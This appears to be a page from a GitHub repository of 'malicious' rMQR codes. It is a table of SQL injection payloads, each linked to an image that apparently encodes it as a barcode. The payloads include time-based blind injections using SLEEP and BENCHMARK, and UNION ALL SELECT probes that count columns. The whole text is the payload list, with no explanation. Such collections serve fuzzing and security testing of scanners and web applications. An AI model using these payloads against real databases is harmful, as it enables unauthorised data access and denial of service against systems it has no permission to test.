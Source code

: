 | ` ORDER BY 1,SLEEP(5)-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/336.png) |
| ` ORDER BY 1,SLEEP(5),3-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/337.png) |
| ` ORDER BY 1,SLEEP(5),3,4-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/338.png) |
| ` ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/339.png) |
| ` ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/340.png) |
| ` ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/341.png) |
| ` ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/342.png) |
| ` ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/343.png) |
| ` ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/344.png) |
| ` ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/345.png) |
| ` ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/346.png) |
| ` ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/347.png) |
| ` ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/348.png) |
| ` ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/349.png) |
| `UNION ALL SELECT 1` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/350.png) |
| `UNION ALL SELECT 1,2` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/351.png) |
| `UNION ALL SELECT 1,2,3` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/352.png) |
| `UNION ALL SELECT 1,2,3,4` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/353.png) |
| `UNION ALL SELECT 1,2,3,4,5` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/354.png) |
| `UNION ALL SELECT 1,2,3,4,5,6` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/355.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/356.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/357.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/358.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/361.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/362.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/363.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/364.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/365.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/366.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/367.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/368.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/369.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/370.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/371.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/372.png) |
| `UNION ALL SELECT 1#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/373.png) |